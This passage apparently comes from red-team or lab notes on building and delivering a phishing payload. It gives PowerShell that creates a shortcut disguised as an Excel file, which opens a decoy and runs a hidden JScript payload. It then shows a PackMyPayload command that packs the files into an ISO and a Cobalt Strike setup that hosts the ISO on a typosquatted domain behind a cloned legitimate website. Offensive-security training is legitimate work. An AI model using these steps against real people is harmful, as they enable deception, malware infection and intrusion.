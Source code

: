 2.  Create new `.lnk` file with the following
	1. This will start command prompt, open the decoy and start payload in background

```
$wsh = New-Object -ComObject WScript.Shell
$lnk = $wsh.CreateShortcut("C:\Payloads\deals\deals.xlsx.lnk")
$lnk.TargetPath = "%COMSPEC%"
$lnk.Arguments = "/C start deals.xlsx && wscript deals.js"
$lnk.IconLocation = "%ProgramFiles%\Microsoft Office\root\Office16\EXCEL.EXE,0"
$lnk.Save()
```

3. In a wsl shell use PackMyPayload to  pack the files into an `iso`.
	1. Hide the decoy and payload. Only show trigger
```bash
python3 /mnt/c/Tools/PackMyPayload/PackMyPayload.py -H deals.xlsx,deals.js /mnt/c/Payloads/deals/ /mnt/c/Payloads/deals/deals.iso
```

### Delivery
1. Host the ISO on Cobalt Strike's built-in web server.
	1.  Go to **Site Management > Host File**.
	2.  File: C:\Payloads\deals\deals.iso
	3.  Local URI: /deals.iso
	4.  Local Host: www.bleepincomputer.com
	5.  Click **Launch**.
![[Pasted image 20250702212549.png]]

2. Clone a legitimate web page (**Site Management > Clone Site**).
	1.  Clone URL: https://deals.bleepingcomputer.com
	2.  Local URI: /deals
	3.  Local Host: www.bleepincomputer.com
	4.  Attack: _deals.iso_
	5.  Click **Clone**.
![[Pasted image 20250702212802.png]]

```
iexplore www.bleepincomputer.com
```